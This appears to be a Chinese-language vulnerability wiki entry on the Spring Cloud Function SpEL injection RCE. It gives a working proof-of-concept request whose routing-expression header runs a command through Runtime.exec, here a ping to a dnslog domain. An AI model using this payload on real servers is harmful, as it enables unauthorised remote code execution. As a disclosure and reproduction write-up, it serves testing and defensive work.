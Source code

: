 # Spring Cloud Function SPEL 远程命令执行漏洞

## 漏洞描述

Spring Cloud Function 是基于Spring Boot 的函数计算框架，它抽象出所有传输细节和基础架构，允许开发人员保留所有熟悉的工具和流程，并专注于业务逻辑。 由于Spring Cloud Function中RoutingFunction类的apply方法将请求头中的“spring.cloud.function.routing-expression”参数作为Spel表达式进行处理，造成了Spel表达式注入漏洞，未经授权的远程攻击者可利用该漏洞执行任意代码。

## 漏洞影响

```
Spring Cloud Function
```

## 环境搭建

- https://github.com/spring-cloud/spring-cloud-function/tree/main/spring-cloud-function-samples/function-sample-pojo

## 漏洞复现

搭建后访问

![image-20220519160206177](images/202205191602220.png)

发送POC

```
POST /functionRouter HTTP/1.1
Host: 192.168.1.27:9000
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("ping -c 1 dxytoy.dnslog.cn")
Content-Length: 1
```

接收到请求

![image-20220519160240168](images/202205191602216.png)